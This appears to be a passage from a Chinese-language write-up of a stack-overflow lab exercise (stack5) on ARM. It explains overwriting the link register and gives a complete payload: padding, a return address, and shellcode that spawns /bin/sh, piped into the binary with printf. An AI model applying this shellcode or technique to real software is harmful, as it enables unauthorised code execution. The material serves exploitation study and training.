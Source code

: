 ![](/media/15124064941002.jpg)

由于要执行我们的shellcode，那把lr改为栈的下一个地址，然后后面存放shellcode。

```
11111111111111111111111111111111111111111111111111111111111111111111

\xf0\xf1\xff\xbe

\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78
```



因此可以这样：

```
printf '11111111111111111111111111111111111111111111111111111111111111111111\xf0\xf1\xff\xbe\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78' | ./stack5

```




